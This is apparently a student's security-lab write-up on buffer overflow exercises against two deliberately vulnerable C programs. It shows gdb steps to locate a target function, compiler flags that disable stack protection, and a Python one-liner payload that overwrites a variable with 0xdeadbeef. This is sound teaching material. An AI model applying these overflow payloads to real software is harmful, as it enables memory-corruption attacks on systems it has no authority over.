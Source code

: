# 22110026, Lê Huy Hoàng
**Lab#1: Conduct buffer overflow attack on _bof1.c_, _bof2.c_, _bof3.c_ programs.**
## bo1.c
Conduct a buffer overflow attack on _bof1.c_ 
```ruby
#include<stdio.h>
#include<unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        prinf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
1. **Vulnerabilities:** the`get() function` is unsafe because it does not perform any bounds checking on the input. If the user provides input larger than the buffer (which is `char array[200]` in this case), it will overwrite adjacent memory locations, potentially including the return address of the `vuln() function`.
2. **Goal:** You want to overflow the array buffer in such a way that the return address is overwritten with the address of `secretFunc()`
 - Step 1: Indentify the buffer size and offsets
  - The buffer `array` is 200 bytes, but you need to determine where the return address is stored relative to the start of the buffer.
  - This can be done by trial and error, injecting a large enough input to identify when the overflow occurs.
 - Step 2: Find the Address of `secretFunc()`
  - You can use a debugger (e.g.,`gdb`) to find the address of `secretFunc()`. The address of this function will be injected into the return address location. Use `gdb` to compile and load the program:
    ```ruby
    gcc -g bof1.c -o bof1
    gdb ./bof1
    ```
  - Inside `gdb`, find the address of `secretFunc()`:
    ```ruby
    (gdb) disassemble secretFunc
    ```
  - This will give you the memory address where `secretFunc()` is stored.
    ```ruby
    (gdb) disassemble secretFunc
    Dump of assembler code for function secretFunc:
    0x00000000000011b5 <+0>:     push   %rbp
    0x00000000000011b6 <+1>:     mov    %rsp,%rbp
    0x00000000000011b9 <+4>:     lea    0xe40(%rip),%rax        # 0x2000
    0x00000000000011c0 <+11>:    mov    %rax,%rdi
    0x00000000000011c3 <+14>:    mov    $0x0,%eax
    0x00000000000011c8 <+19>:    call   0x1020 <printf@plt>
    0x00000000000011cd <+24>:    nop
    0x00000000000011ce <+25>:    pop    %rbp
    0x00000000000011cf <+26>:    ret
    End of assembler dump.
    (gdb) 
    ```
 - The address is  `0x00000000000011b5`.
 - Step 3: Craft the malicious input
   - 200 characters to fill up the buffer
   - Additional padding to reach the return address
   - the return address of `secretFunc()`

## bof2.c
Conduct a buffer overflow attack on _bof2.c_ 
```ruby
#include <stdlib.h>
#include <stdio.h>
void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];
  fgets(buf,45,stdin);
  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
   }
}
```
Step 1: Compile the program
First, ensure the program is compiled without stack protection and with debugging information. You can use the following command:
```gcc -o buffer_overflow buffer_overflow.c -fno-stack-protector -z execstack -g```
Step 2: Run the program
```./bof2```
Step 3: Check the buffer size
You can do this by input some random things, for example: 
```ruby
/mnt/d/uni/2025/info/seclabs/bof $ ./bof2
test input
[buf]: test input
[check] 0x4030201
```
Step 4: Create a exploit input
You need to construct an input that:
    - Fills buf with 40 characters.
    - Overwrites check with the value 0xdeadbeef in little-endian format.
Step 5: Generate the input
```python -c 'print("A" * 40 + "\xef\xbe\xad\xde")' > exploit_input```
This command creates a file named exploit_input containing:
    - 40 'A's (filling buf)
    - The bytes ef be ad de (overwriting check)
Step 6: run the program with exploit input
```./bof2 < exploit_input```
Step 7: Check the output
If successful, you get this: 
```ruby
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[check] 0xdeadbeef
Yeah! You win!
```

